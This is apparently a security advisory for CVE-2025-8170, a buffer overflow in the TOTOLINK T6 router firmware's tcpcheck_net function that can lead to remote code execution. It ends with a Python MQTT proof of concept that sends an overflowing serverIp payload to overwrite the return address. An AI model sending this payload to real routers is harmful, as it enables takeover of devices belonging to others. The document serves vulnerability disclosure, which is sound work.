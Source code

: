 # [CVE-2025-8170](https://vuldb.com/?id.317584)

# Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a buffer overflow vulnerability in shared library that lead to RCE.

# Vulnerability details

The `T6` routers has many shared library that will be loaded in memory when running. In function `tcpcheck_net`, the `v7` buffer is 128 bytes, and the `sprintf` doesn't check for the length of input.

![](9/1.png)

An attacker can send a malicious packet (both `MQTT` and `HTTP`) and overwrite the saved return address, lead it to RCE.

![](9/2.png)

# POC

In this POC, I use the chain: `meshSlaveDlfw` -> `safe_cs_pub` -> `tcpcheck_net`.

```python
import paho.mqtt.client as mqtt

payload = b"A" * (0xa0 - 31 - 8) + b"\x37\x33\x33\x13"

mqtt_data = b'''
    {
        "serverIp":"%s"
    }
''' % payload

client = mqtt.Client()
client.connect("192.168.0.1", 1883, 60)
client.publish("totolink/router/meshSlaveDlfw", mqtt_data)
```